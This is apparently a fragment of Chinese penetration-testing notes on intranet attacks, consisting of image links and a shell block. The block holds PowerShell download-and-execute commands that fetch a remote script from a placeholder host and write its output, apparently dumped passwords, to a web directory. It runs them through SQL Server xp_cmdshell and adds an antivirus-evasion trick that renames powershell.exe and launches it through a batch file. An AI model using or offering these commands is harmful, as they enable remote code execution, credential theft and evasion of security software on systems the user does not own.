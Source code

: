 ![image-20210830150053754](内网渗透/image-20210830150053754.png)

![image-20210830150129282](内网渗透/image-20210830150129282.png)

```sh
powershell IEX (New-Object Net.WebClient).DownloadString('http://ip:port/xxx.ps1');xxx > c:\www\password.log 


exec ("xp_cmdshell''where powershell''")
exec ("xp_cmdshell'copy c:\xxx\powershell.exe test.txt'")
exec ("xp_cmdshell''powershell IEX (New-Object Net.WebClient).DownloadString('http://ip:port/xxx.ps1');xxx > c:\www\password.log''")



----------------------------绕杀软
echo "xx.txt powershell IEX (New-Object Net.WebClient).DownloadString('http://ip:port/xxx.ps1');xxx > c:\www\password.log" > tmp.bat
where powershell
copy c:\windows\system32\windowspowershell\v1.0\powershell.exe xx.txt

tmp.bat执行输出到c:\www\password.log中
```
